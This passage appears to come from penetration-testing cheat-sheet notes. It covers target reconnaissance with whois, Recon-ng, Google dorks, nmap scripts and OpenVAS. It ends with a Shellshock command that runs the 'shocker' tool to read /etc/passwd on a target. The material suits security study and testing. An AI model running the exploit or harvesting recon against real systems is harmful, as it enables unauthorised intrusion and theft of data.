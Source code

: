 ```
whois $ip
```

Find emails and employee name with Recon-ng:

```
recon-ng; use module; set DOMAIN $ip; run;
recon/contacts/gather/http/api/whois_pocs
```

Find xss published ad xssed.co

```
recon/hosts/enum/http/web/xssed
```

Find subdomain

```
recon/hosts/gather/http/web/google_site
```

Finds IPs close to the domain and possible new domains

```
recon/hosts/gather/http/web/ip_neighbor
```

Google search

* site:xxx -site:www.xxx
* filetype: look for specific documents, pdf, docx, etc..
* inurl
* intitle
* Others https://www.exploit-db.com/google-hacking-database/

### nmap has many vulnerability scanning NSE scripts in /usr/share/nmap/scripts/

OpenVAS

* Powerful vulnerability scanner with thousands of scan checks. Setup:

```
openvas-setup; openvas-adduser; gsd
```

## Well known exploits

### Shellshock

The following tool will test it.

```
git clone https://github.com/nccgroup/shocker; cd shocker; ./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose;  ./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/admin.cgi --verbose
```

